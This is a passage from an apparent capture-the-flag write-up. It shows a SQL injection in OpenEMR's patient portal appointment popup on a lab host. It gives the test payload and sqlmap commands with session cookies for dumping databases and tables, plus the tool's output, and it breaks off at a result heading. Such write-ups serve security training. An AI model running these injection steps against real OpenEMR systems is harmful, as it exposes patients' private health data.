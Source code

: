 ### OpenEMR Vulnerability 2: SQL Injection Against /portal/find_appt_popup_user.php

Upon visiting the page, we will be able to see this.<br />
![popup user](images/cache/12.png# medium)
<br />It seems there is nothing in this page. We can click the "Search" just to see the GET variables to attack with. This is the URL after:
<br />**```http://hms.htb/portal/find_appt_popup_user.php?providerid=&catid=```**
<br />To check if it's really vulnerable to SQLI, let's insert a **```'```** and some string to get a response from the server. I wrote **```'OR 1;```** to **```catid```** to purposely cause error to the query.<br />
![Query error](images/cache/13.png)
<br />It really is vulnerable! Let's pass the automated stuff SQLI now to **```SQLMap```**

#### Setting up SQLMap
Remember that we have to go first to the patient registration page before actually going to the vulnerable page. So we have to get the cookies that we have when we visited the registration page and then set it to SQLMap. The cookies that were set are **```PHPSESSID```** and **```OpenEMR```**:
<br />
```bash

sqlmap -u "http://hms.htb/portal/find_appt_popup_user.php?catid=1" --cookie "OpenEMR=m3s59f9ekb4dokt8po0ecp7u9b;PHPSESSID=4gnsf5ooj66r8rflrrp4r8r6u9"

```
#### Leaking Databases, Tables and Columns
SQLMap setting to leak the databases:
<br />
```bash

sqlmap -u "http://hms.htb/portal/find_appt_popup_user.php?catid=1" --cookie "OpenEMR=m3s59f9ekb4dokt8po0ecp7u9b;PHPSESSID=4gnsf5ooj66r8rflrrp4r8r6u9" --dbs

```
<br />Result:
<br />
```bash
...
[13:30:10] [INFO] fetching database names
[13:30:11] [INFO] retrieved: 'information_schema'
[13:30:11] [INFO] retrieved: 'openemr'
available databases [2]:
[*] information_schema
[*] openemr

```
<br />Let's leak now openemr tables:
<br />
```bash

sqlmap -u "http://hms.htb/portal/find_appt_popup_user.php?catid=1" --cookie "OpenEMR=m3s59f9ekb4dokt8po0ecp7u9b;PHPSESSID=4gnsf5ooj66r8rflrrp4r8r6u9" -D openemr --tables

```
<br />Result: